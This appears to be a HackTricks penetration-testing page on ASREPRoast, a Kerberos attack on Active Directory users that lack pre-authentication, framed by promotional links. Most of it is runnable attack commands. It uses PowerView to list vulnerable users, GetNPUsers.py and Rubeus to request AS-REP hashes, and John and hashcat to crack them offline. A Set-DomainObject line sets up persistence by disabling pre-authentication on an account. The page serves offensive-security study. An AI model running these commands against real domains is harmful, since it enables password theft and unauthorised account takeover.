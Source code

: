 # ASREPRoast

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FfinO3sjcfKcruYYBafKC%2Fimage.png" alt=""><figcaption></figcaption></figure>

​Did you know that crypto projects pay more bounty rewards than their web2 counterparts?\
This [**crypto bounty alone**](https://hackenproof.com/jungle/jungle-smart-contract) is worth $1.000.000!\
Check out the [**top-paying bounties**](https://hackenproof.com/programs) among crypto projects.\
[**Sign up on HackenProof**](https://hackenproof.com/register?referral_code=i_E6M25i_Um9gB56o-XsIA) to get rewarded without delays and become the web3 hacker legend.




# ASREPRoast

The ASREPRoast attack looks for **users without Kerberos pre-authentication required attribute (**[_**DONT\_REQ\_PREAUTH**_](https://support.microsoft.com/en-us/help/305144/how-to-use-the-useraccountcontrol-flags-to-manipulate-user-account-pro)_**)**_.

That means that anyone can send an AS\_REQ request to the DC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.

Furthermore, **no domain account is needed to perform this attack**, only connection to the DC. However, **with a domain account**, a LDAP query can be used to **retrieve users without Kerberos pre-authentication** in the domain. **Otherwise usernames have to be guessed**.

### Enumerating vulnerable users (need domain credentials)

```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```

### Request AS\_REP message

{% code title="Using Linux" %}
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
{% endcode %}

{% code title="Using Windows" %}
```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
{% endcode %}


AS-REP Roasting with Rubeus will generate a 4768 with an encryption type of 0x17 and preauth type of 0.


## Cracking

```
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
```

## Persistence

Force **preauth** not required for a user where you have **GenericAll** permissions (or permissions to write properties):

```bash
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

# References
[**More information about AS-RRP Roasting in ired.team**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)


<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FfinO3sjcfKcruYYBafKC%2Fimage.png" alt=""><figcaption></figcaption></figure>

​Did you know that crypto projects pay more bounty rewards than their web2 counterparts?\
This [**crypto bounty alone**](https://hackenproof.com/jungle/jungle-smart-contract) is worth $1.000.000!\
Check out the [**top-paying bounties**](https://hackenproof.com/programs) among crypto projects.\
[**Sign up on HackenProof**](https://hackenproof.com/register?referral_code=i_E6M25i_Um9gB56o-XsIA) to get rewarded without delays and become the web3 hacker legend.




<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
